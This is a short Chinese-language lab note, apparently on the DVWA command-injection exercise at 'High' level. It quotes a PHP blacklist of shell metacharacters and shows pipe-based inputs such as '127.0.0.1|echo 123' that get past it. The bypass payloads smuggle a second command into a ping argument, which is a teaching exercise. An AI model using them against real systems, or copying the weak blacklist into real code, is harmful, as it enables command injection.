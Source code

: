 
<br/><br/>

# High

* 黑名單
```php=
    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',   ////這個關鍵
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

```


* 說明
一個字元的情況下，很難繞過，但如過是一個字元以上(字串)就有很高機會可以繞過

* | 管道符 
stdout 給下一個 cmd 當參數
```cmd=
只有|+ 空格 會轉空
127.0.0.1| echo 123
失敗


單寫 |
127.0.0.1|echo 123

成功  
注意:cmd1 也執行了，只是沒顯示出來，可以用wireshark 抓包看有沒有 ping 出來




空個 +|
127.0.01 |echo 123

成功  
注意:cmd1 也執行了，只是沒顯示出來，可以用wireshark 抓包看有沒有 ping 出來


```

但其實這道題是放水的。
